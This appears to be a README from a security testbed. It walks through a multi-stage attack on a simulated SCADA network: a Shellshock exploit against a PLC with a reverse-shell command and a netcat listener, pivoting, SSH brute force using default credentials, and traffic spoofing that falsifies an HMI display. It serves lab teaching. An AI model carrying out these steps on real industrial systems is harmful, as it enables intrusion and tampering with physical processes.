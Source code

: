 # Multi Stage Attack scenario

This page outlines an attack targeting the Internal Gateway, which is not directly accessible from the attacker machine. To overcome this limitation, the attacker leverage ShellShock vulnerability in the Genera-PLC to pivot and gain access to the target. Then, traffic is spoofed to manipulate M-IED1 device. Notably, all files and tools required to execute this attack are already included within the provided Docker container.

---

The first stage of the attack path exploits the Shellshock vulnerability in the General-PLC, specifically targeting the CGI-Bin module of the Apache web server. This vulnerability enables attackers to inject and execute malicious commands through specially crafted HTTP requests since the CGI (Common Gateway Interface) scripts on Apache invoke the Bash shell for processing the HTTP response. The following commands illustrate the exploitation process:

- Execute the exploit:
```bash
python3 shellshock.py 10.0.1.100 4444 http://10.0.1.66//cgi-bin/stats
```

- Establish a reverse shell listener:
```bash
nc -lvnp 4444
```

![Shellshock Exploit](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/shellshock.png "Figure: Shellshock Exploit")

![Reverse Shell](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/reverse.png "Figure: Reverse Shell")

To progress further along the attack path, the attacker must perform pivoting to reach the I-Gateway. Indeed, this device is typically unreachable from the SCADA Network. However, by compromising the General-PLC, the attacker can bypass these restrictions and establish a connection to the I-Gateway using port forwarding techniques. It is worth noting that the shell upgrade has already been performed. For those interested in understanding how to execute the shell upgrade, detailed guidance can be found [this link](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

![Tool Download](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/download.png "Figure: Tool Download")

Then, the attacker is able to brute force the SSH service exposed by the gateway and take complete control of the endpoint. In fact, this service was exploited by finding the default credential. Therefore, this credential enables us also to gain root privilege.

![SSH Bruteforce](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/bruteforce.png "Figure: SSH Bruteforce")

Then, the attacker brute-forces the SSH service exposed by the I-Gateway. This attack exploits the discovery of default credentials configured for the SSH authentication mechanism. Moreover, the use of these credentials grants root privileges.

![SSH Access](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/ssh-mod.png "Figure: SSH Access")

Finally, the attacker alters the communication passing through the I-Gateway in order to manipulate the visualization of the M-IED1 status.

![Packet Modification](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/packetModification.png "Figure: Packet Modification")

Indeed, from the HMI interface, we can observe that MIED1 appears to be active. However, by using the TestNode, which is connected to the same network interface as the MPLC, it is possible to confirm that the displayed MIED1 is close.

![Shellshock Exploit](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/HMI.png "Figure: Shellshock Exploit")

![Shellshock Exploit](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/coils.png "Figure: Shellshock Exploit")
